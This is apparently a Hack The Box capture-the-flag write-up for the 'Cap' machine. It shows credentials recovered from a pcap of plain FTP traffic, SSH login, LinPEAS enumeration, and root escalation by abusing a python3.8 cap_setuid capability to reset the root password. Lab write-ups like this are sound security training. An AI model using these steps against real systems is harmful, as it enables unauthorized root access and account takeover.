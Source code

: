 # CAP

### User flag

If we try to access the IP we will find a webpage. We can find a list of the ports under the Dashboard section. If we keep investigating we will find that we can download a .pcap file. Opening it with wireshark we can find the user and password for the user `nathan`, since he entered it via plain FTP.

So to get the user flag we will just connect via ssh with the user and password we've got.

```
┌─[user@kali]─[~]
└──╼ $ssh nathan@10.10.10.245
nathan@10.10.10.245's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

Last login: Mon Sep 27 16:20:45 2021 from 10.10.14.225

```

### Root flag

Now that we have user access, we have to look for a way to escalate priveleges. We'll use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):

```
┌─[user@kali]─[~/Desktop/HTB]
└──╼ $scp linpeas.sh nathan@10.10.10.245:/home/nathan
nathan@10.10.10.245's password:
linpeas.sh      
...
nathan@cap:~$ chmod a+x linpeas.sh
nathan@cap:~$ ./linpeas.sh &> out.txt
```

If we take a look to the file, we will find this line underlined in yellow:

```
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Which means that python3.8 file has the SETUID bit set, which can be easily exploitable:

```
nathan@cap:~$ /usr/bin/python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> from subprocess import Popen
>>> Popen('passwd')
<subprocess.Popen object at 0x7f7eef5f7190>
>>> New password:
Retype new password:
passwd: password updated successfully
```

Now just log in as root and obtain the flag

```
nathan@cap:~$ su
Password:
root@cap:/home/nathan# cd /root/
root@cap:~# cat root.txt
```
